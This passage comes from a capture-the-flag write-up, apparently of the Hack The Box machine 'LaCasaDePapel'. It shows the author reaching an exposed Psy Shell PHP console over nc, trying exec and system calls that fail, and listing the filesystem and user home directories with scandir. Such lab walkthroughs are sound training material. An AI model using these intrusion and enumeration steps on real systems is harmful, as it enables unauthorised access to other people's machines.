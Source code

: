 ![](/images/hackthebox/lacasadepapel/6.png)
<br> So I connected to that port with `nc` to see what's there :
```
root@kali:~/Desktop/HTB/boxes/lacasadepapel# nc lacasadepapel.htb 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
<br> The banner says `Psy Shell v0.9.9`, I didn't know what `Psy Shell` was but a quick search and I found the [website](https://psysh.org/). It's a shell used for interactive `php` debugging and we can use it to execute `php`. 
<br> I tried to execute system commands but I couldn't :
```
exec("whoami")
PHP Fatal error:  Call to undefined function exec() in Psy Shell code on line 1
system("whoami")
PHP Fatal error:  Call to undefined function system() in Psy Shell code on line 1
```
<br> I tried to use `scandir()` to see the current directory listing and it worked :
```
scandir(".")
=> [
	 ".",
	 "..",
	 ".DS_Store",
	 "._.DS_Store",
	 "bin",
	 "boot",
	 "dev",
	 "etc",
	 "home",
	 "lib",
	 "lost+found",
	 "media",
	 "mnt",
	 "opt",
	 "proc",
	 "root",
	 "run",
	 "sbin",
	 "srv",
	 "swap",
	 "sys",
	 "tmp",
	 "usr",
	 "var",                           
   ]
```
<br> I could list the directories in `/home` :
```
scandir("home/")
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
```